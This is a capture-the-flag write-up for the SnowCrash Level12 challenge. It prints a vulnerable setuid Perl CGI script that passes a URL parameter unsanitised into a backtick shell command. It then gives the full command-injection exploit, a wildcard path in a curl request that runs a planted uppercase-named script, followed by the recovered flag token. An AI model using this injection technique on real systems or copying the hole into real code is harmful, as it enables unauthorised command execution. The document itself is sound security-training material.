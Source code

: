 # SnowCrash

## Level12

```sh
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
```

```pl
level12@SnowCrash:~$ cat level12.pl 
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0]; 					# First Argument (param "x")
  $xx =~ tr/a-z/A-Z/; 				# Convert "x" to uppercase
  $xx =~ s/\s.*//; 				# Remove everything after the first whitespace in "x"
  @output = `egrep "^$xx" /tmp/xd 2>&1`; 	# Execute a shell command using "x", this can be exploited
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

We need to make a query to localhost using the x param

We cannot directly use getflag because of the first regex that transforms the string to uppercase

So we will need to create a script with an uppercase name that will run getflag for us

```sh
level12@SnowCrash:~$ echo "getflag > /tmp/exploit" > /tmp/EXPLOIT
level12@SnowCrash:~$ chmod 777 /tmp/EXPLOIT
```

Since we can only create file inside of /tmp and that /tmp will be replaced by /TMP, we need to make use of wildcards,

```sh
level12@SnowCrash:~$ curl localhost:4646?x='`/*/EXPLOIT`'
..level12@SnowCrash:~$ cat /tmp/exploit
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

The single quotes allowed us to prevent the local shell (the one used to call curl) from interpreting the wildcard
and to send the string content literally to the perl script

The backquotes allowd us to instruct the remoted shell (on the server) to execute the command